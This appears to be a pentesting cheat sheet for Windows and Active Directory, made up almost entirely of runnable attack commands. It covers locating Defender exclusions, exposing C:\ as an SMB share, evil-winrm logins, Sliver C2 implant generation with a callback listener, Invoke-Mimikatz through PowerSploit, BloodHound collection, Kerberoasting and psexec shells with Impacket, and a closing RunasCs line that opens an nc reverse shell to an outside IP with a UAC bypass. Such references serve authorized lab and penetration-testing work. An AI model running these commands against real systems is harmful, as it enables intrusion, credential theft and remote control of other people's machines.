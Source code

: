 ## Check permissions 
##### Check permissions of folder
```sh
icacls "C:\Program Files"
```
##### Check user privs
```sh
whoami /priv
```
##### Info about user
```
net user USERNAME
```
##### Info about group
```
net group GROUPNAME
```

### Find Defender Exclusions
##### As low permission user
```powershell
Get-WinEvent -LogName "Microsoft-Windows-Windows Defender/Operational" | Where-Object { $_.Id -eq 5007 -and $_.Message -match "Exclusions" } | ForEach-Object { if ($_.Message -match "SOFTWARE\\Microsoft\\Windows Defender\\Exclusions\\Paths\\[^\s]+") { $matches[0] } }
```

### Make file system accessible with creating a share
```
New-SmbShare -Name SHIT_SHARE -Description "test" -Path C:\
```


## WinRM (Port 5985)
##### Connect
```sh
evil-winrm -i IP -u "USERNAME" -p 'PASSWORD'
```
##### Connect with certificate and private key (pfx)
```sh
evil-winrm -i IP -c pub.pem -k priv.pem -S -r DOMAIN
```
##### List user info
```sh
net user USERNAME
```
##### List running services
```sh
services
```
###### Upload file to box
```sh
upload FILEPATH
```

## Sliver (C2)
```sh
$ ./sliver-server-linux

sliver> generate --mtls 10.10.16.9 --os windows // generate binary

sliver> mtls // start listener

// Upload binary to box and run it

// CALLBACK
sliver> use <TAB>
```

### SOCKS5 SLIVER

```sh
sliver> socks5 start

$ proxychains4 nc 127.0.0.1 100
```

## [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/)
Transfer `PowerSploit` folder to box
```ps1
Import-Module .\PowerSploit.psd1
OR
> . .\Powermad.ps1

Get-Command -Module PowerSploit
get-help Invoke-Mimikatz -examples
```

## [AD Pentest Suite](https://github.com/theyoge/AD-Pentesting-Tools) 

## Find Powershell history file
```sh
Get-ChildItem -Path "$env:USERPROFILE\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine"
```

## Bloodhound
##### Bloodhound (gather data)
```sh
bloodhound-python -u svc-printer -p '1edFg43012!!' -ns 10.129.201.79 -d return.local -c all
```
##### SharpHound
```sh
.\SharpHound.exe --CollectionMethods All --ZipFileName output.zip
```
##### Start Bloodhound
```sh
sudo neo4j console
bloddhound
```

Run from wsl2
```sh
docker run -it \
  -p 7474:7474 \
  -e DISPLAY=unix$DISPLAY \
  -v /tmp/.X11-unix:/tmp/.X11-unix \
  --device=/dev/dri:/dev/dri \
  -v $(pwd):/data \
   belane/bloodhound
```

Run from windows
```sh
docker run -p 7474:7474 -p 7687:7687 specterops/bloodhound-neo4j
```
Then run `bloodhound.exe`

## ImPacket
##### List AD users
```sh
impacket-GetADUsers -all -dc-ip IP DOMAIN/USERNAME
```
##### Kerberoast
```sh
impacket-GetUserSPNs -request -dc-ip IP DOMAIN/USERNAME
```
##### PSExec (Get shell)
```sh
impacket-psexec DOMAIN/USERNAME@IP
```


### RunAs with password
```sh
.\RunasCs.exe backup password "nc64.exe 10.10.14.139 4444 -e cmd.exe" --bypass-uac --logon-type '8' 
```
